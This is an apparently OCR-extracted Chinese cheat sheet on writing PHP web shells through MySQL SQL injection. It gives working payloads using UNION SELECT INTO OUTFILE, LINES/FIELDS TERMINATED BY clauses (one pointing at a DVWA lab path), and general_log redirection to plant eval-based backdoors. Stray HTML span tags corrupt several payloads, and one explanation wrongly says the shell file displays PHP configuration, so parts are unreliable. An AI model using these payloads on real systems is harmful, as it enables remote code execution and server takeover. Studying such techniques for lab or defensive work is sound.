 ###### 1.通过union联合查询进行shell写入：

```
123' union select 1,"&lt;?php @eval($_GET['qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqcmd'])?&gt;" into outfile "绝对路径" --+

```

###### 2.通过分隔符进行shell写入（union查询无法使用时候，多用于盲注）：

```
123' into outfile "E:\phpStudy\PHPTutorial\WWW\DVWA-master\321.php" line terminated by "&lt;?php &lt;span class="label label-primary"&gt;@eval($_GET['cmd'])?&lt;/span&gt;&amp;gt;" --+

```

原理解释:<br/> 这会创建一个名为 321.php 的文件，并将其存储在服务器上的 E:\phpStudy\PHPTutorial\WWW\DVWA-master 目录下。这个文件包含 &lt;?php &lt;span class="label label-primary"&gt;@eval($_GET[‘cmd’])?&lt;/span&gt;&gt; 代码(因为LINES TERMINATED BY “&lt;?php &lt;span class="label label-primary"&gt;@eval($_GET[‘cmd’])?&lt;/span&gt;&gt;” 这句话将 &lt;?php &lt;span class="label label-primary"&gt;@eval($_GET[‘cmd’])?&lt;/span&gt;&gt;作为行终止符。我们使用into outfile会创建一个321.php 的文件，但是无法使用union查询，所以无法写入向321.php 的文件，所以这个321.php 文件就只有一个开始符和终止符，我们使用LINES TERMINATED BY “&lt;?php &lt;span class="label label-primary"&gt;@eval($_GET[‘cmd’])?&lt;/span&gt;&gt;”，就可以将终止符设置为&lt;?php &lt;span class="label label-primary"&gt;@eval($_GET[‘cmd’])?&lt;/span&gt;&gt;)，当访问该文件时，它将显示服务器的 PHP 配置信息。

相同的道理还可以使用:

```
?id=1 INTO OUTFILE '物理路径' lines terminated by （&lt;?php eval($_POST[cmd])?&gt;）#

?id=1 INTO OUTFILE '物理路径' fields terminated by （&lt;?php eval($_POST[cmd])?&gt;）#

?id=1 INTO OUTFILE '物理路径' columns terminated by （&lt;?php eval($_POST[cmd])?&gt;）#

?id=1 INTO OUTFILE '物理路径' lines starting by （&lt;?php eval($_POST[cmd])?&gt;）#

这四个注入语句

```

###### 3.通过log写入shell

原理解释：<br/> 开启mysql的log功能，并且把log功能设置为一个可访问的php文件路径A，然后执行一个带有php命令的sql语句，该语句会被log记录，然后关闭log功能，访问PHP路径A，由于关闭了log功能，php文件正常会被当成php执行，刚刚开启log时候，由于记录了带有php代码是sql语句，所以php文件A带有了php命令，访问php文件A即可。

命令：<br/> show variables like ‘%general%’; #查看配置

```
set global general_log = on;                         #开启general log模式

set global general_log_file = '网站目录/shell.php';   #设置日志目录为shell地址

select '&lt;?php eval($_POST[shell]);?&gt;'                #写入shell

set global general_log=off;                          #关闭general log模式

```
